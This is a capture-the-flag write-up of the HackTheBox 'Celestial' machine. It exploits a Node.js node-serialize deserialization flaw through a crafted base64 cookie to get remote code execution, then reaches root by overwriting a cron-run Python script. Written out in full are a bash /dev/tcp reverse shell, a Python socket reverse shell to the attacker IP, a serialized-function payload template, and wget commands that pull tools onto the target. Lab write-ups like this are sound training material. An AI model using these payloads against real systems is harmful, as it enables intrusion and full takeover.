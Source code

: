 # Celestial [HTB](https://app.hackthebox.com/machines/130)
![celestial-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/celestial-01.png)

## Recon

After adding an entry for our target in `/etc/hosts`, i start enumerating with `namp`:

```bash
nmap -sC -sV -A -p- celestial.htb -oN nmap.result
``` 

![nmap-res-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/nmap-res-02.png)

We have a single `Node.js` web server running on port 3000, lets take a look at it.


### Node.js Express Port 3000

Lets start by openning the site at `http://celestial.htb:3000`

![site-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/site-03.png)

Ok, not much to see here, lets open `Burp` and take a closer look at what's happenning in the background:

![burp-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/burp-04.png)

When we make an initial request, Altough the server replied with a `200` OK HTTP status, it prints
out a `404` text header. Along with that, the server gives us a cookie. If we then refresh the page, 
our client requests the same root directory, but this time adds the cookie and now we get the page:

![cookie-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/cookie-05.png)


So the cookie is being used here for something. 

When I initially researched `Node.js` cookies, I found [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/nodejs-express)'s page, that describes a tool to decrypt the cookies. But then i nocited that the cookie format is different from whats been given to us be the target. So this tool wont help us. 

Then i took a closer look at the cookie itself, at first i thought it was encrypted with a strong 
encryption algorithm, but still I decided to check it againts [hash-identifier](https://hashes.com/en/tools/hash_identifier):

![base64-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/base64-06.png)

If we take our cookie and [decode](https://www.base64decode.org/) it we see the following:

![decode-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/decode-07.png)

So the cookie is just a base64 encoded JSON data. The `username` and `num` keys are interesting. 
I think they are used to render the text on the main page. Lets set the `num` argument to `4` encode it and send it to the target:

![num-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/encode-08.png)

Now lets send that to the server as the cookie and see what happens:

```bash
curl -H 'Cookie: profile= eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjQifQo=' http://celestial.htb:3000
```

![response-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/response-09.png)

We can see the response has changed. We can conclude from this that the server is using data extracted
from the cookie to render the web page. And since we can easily control what goes in the cookie, we can 
possibly temper with the server's backend. 

Now the question is, how we can leverage this to get access to the system? 

So i started to play around with different payloads, like `"num": "id"`. Which lead me to an interesting error:

![eval-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/evaul-10.png)

The `eval()` function in JavaScript evaluates and executes java code, this is a potential attack vector. 
So i tried to to send a reverse shell with the different payloads. None worked for me, but the following one brought yet another interesting error:

```java
"num":"exec(\"/bin/bash -c 'exec 5<>/dev/tcp/10.10.14.61/443;cat <&5 | while read line; do $line 2>&5 >&5; done'\");"
```

![unserialize-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/unserialize-11.png)


While googeling this error, i came across an interesting [artical](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/). Apperantly, in some versions of the `node-sirialize` module, we can execute arbitrary code by declaring a serialized function passed inside a cookie and immediatly invoke it with a function expression. 

I've tried to find a working payload for quite some time, I tried a few different exploits from `ExploitDB`, but they did not work for me. So i decided to use [nodejsshell.py](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) script to generate a JavaScript reverse shell payload.

After downloading the script, i generated my payload with:

```bash
./nodejsshell.py 10.10.14.61 443
```

![gen-payload-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/gen-payload-12.png)

This results in a rather large output. I took the `<nums>` output and wrapped it inside a serliazed function, invoking it at the end with `()`:

```javascript
"_$$ND_FUNC$$_function (){eval(String.fromCharCode(<nums>))}()"
```

I took the payload and placed it as the value for the `num` property in the cookie and base64 encoded it:

![encode-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/encode-13.png)


I started my listener with:

```bash
rlwrap nc -lnvp 443
```

And i sent the payload to the target:

![send-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/send-14.png)

This gave me access to the system:

![shell-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/shell-15.png)


## Privilege Escalation

The first thing i did after landing the shell was to upgrade it with:

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```

![upgrade-shell-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/upgrade-shell-16.png)

Now it's a bit more intuitive. 

Then i tried to snatch quick wins by running `history`, `sudo -l`, as well as `find / -perm -4000 2>/dev/null` but with no luck. 

If we take a look at our user's group membership with `id` we can see that our user is a part of the `sudo` and `adm` groups, but in order to use `sudo` we need our user's password which i wasnt able to find. 

So instead i decided to have a look around the system, if we list out the contents of our home folder we will se somthing interesting:

![home-dir-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/home-folder-17.png)

We have a text file in our home folder owned by root, this is unusual. I'm thinking that a task is 
probably running in the background doing this. Lets get [pspy64](https://github.com/DominicBreuker/pspy)
on the target and take a look at the background processes. 

Use a python server to host the file with:

```bash
python3 -m http.server 80
```

Download the file from the target and execute it using:

```bash
wget http://10.10.14.61/pspy64
chmod +x pspy64 
./pspy64
```
![task-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/task-18.png)

Here it is. We have root (UID 0), spwaning `/bin/sh` to run a python script found in our user's `~/Documents` directory. The output from the script is saved to the `output.txt` file we saw earlier. 

In the task, we can see a few different commands being executed, but we only really care about the first one, if we can inject code into this file we can pop a reverse shell as root. Everything after the first command will be halted due to the reverse shell connection.

What i ended up doing, is creating a pyhton reverse shell script in my Kali machine:

```python
import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.61",9001));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())
```

Then, i deleted the orignal `script.py` on the the target and downloaded my version with:

```bash
rm script.py 
wget http://10.10.14.61/script.py
```

Then i started my listener with:

```bash
rlwrap nc -lnvp 9001
```

And waited for the connection:

![root-19](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/root-19.png)


